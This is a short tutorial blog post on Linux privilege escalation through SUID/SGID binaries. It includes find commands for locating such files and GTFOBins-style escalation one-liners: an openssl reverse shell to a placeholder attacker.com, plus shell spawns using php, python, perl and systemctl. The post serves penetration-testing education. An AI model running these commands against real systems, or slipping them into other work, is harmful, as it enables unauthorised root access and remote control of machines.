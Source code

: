```yaml
---
layout: post
title: 'SUID Executables - Basic Linux Privilage Escalation '
description: Basic Linux Privilage Escalation
date: '2019-07-18 21:03:36 +0530'
categories: Privilage Escalation
published: true
---
```


SUID and GUID are useful features when  unprivilaged users are needed to access a program. With them, if unprivileged user access files which are set suid, files run with its owner permissions. Also, guid is similar to suid. In this time program runs with groups permissions.
For example; when user "thomas" runs below file, file run with intern privileges because of suids.

![Screenshot from 2019-07-18 14-41-08.png]({{site.baseurl}}/pics/pic1.png)


To give suid ,guid can be run below command.

```bash
chmod u+s file.sh
chmod g+s file.sh
```

SGID and SUID are also dangerous as much as they are useful. With them, security holes can be easily opened. So they should be used carefully. 

To find all suid,guid files on computer below command can be run.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```


How to escalate our privileges using SUID?

For each program, our approach will be different.
About that there is a wonderful website which includes information about how used each program to escalation.

[https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)

Let's look at some commands how they used in escalation.


### cat

To use cat to access all files directly use it. 

```bash
LFILE=file_to_read
cat "$LFILE"
```
### opensssl

To escalate our privileges we can get reverse shell with openssl
by running below command on attacker machine, we make certificates to ssl connection.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
```

then we connect to the attacker by below commands. Our connection encrypted.

```bash
RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```
### python, perl, php

All compilers are so dangerous to give suids. With then we directly open privilaged shell

```bash
php -r "pcntl_exec('/bin/sh', ['-p']);"
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
./perl -e 'exec "/bin/sh";'
```
### systemctl

Systemctl a command to control systemd which runs, creates, stops services on computer. With creating our services we escalate our privileges.

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```

